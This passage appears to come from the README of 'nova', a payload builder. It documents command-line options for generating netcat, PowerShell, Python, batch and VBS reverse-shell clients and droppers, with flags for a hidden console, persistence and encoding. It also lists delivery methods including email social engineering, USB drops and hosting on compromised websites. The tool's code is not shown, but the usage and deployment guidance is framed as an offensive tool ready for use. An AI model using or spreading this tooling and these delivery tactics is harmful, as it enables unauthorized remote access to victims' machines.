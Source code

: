```bash
# Generate Netcat commands
python builder.py --type netcat --ip 192.168.1.100 --port 4444
```

#### Command Line Options
```bash
Required Arguments:
  --type {python,netcat,powershell,batch,vbs}  Payload type
  --ip IP_ADDRESS                              Server IP address
  --port PORT                                  Server port number

Optional Arguments:
  --output NAME                                Output filename (default: client)
  --build-exe                                  Build executable with PyInstaller
  --hide-console                               Hide console window
  --persistence                                Add persistence mechanisms
  --encode                                     Base64 encode payload (PowerShell)
  --icon ICON_FILE                            Icon file for executable
```

### Generated Files

#### File Structure
```
nova/payloads/
├── client.py              # Python source code
├── client.exe             # Compiled executable
├── psrevshell.ps1         # PowerShell script
├── dropper.bat            # Batch dropper
├── dropper.vbs            # VBS dropper
└── payload_info_*.json    # Generation metadata
```

#### Deployment Methods
1. **Direct Execution**: Copy and run executable
2. **Email Attachment**: Social engineering vector
3. **USB Drop**: Physical deployment
4. **Web Download**: Host on compromised website
5. **Script Execution**: PowerShell/batch scripts

### Builder Menu (Windows)
```batch
# Quick launcher for Windows
builder_menu.bat

# Interactive menu options:
# 1. Generate Python Client (with EXE)
# 2. Generate Netcat Commands
# 3. Generate PowerShell Script
# 4. Generate Batch Dropper
# 5. Generate VBS Dropper
# 6. Test Builder (all functions)
# 7. Help / Usage Guide
```

---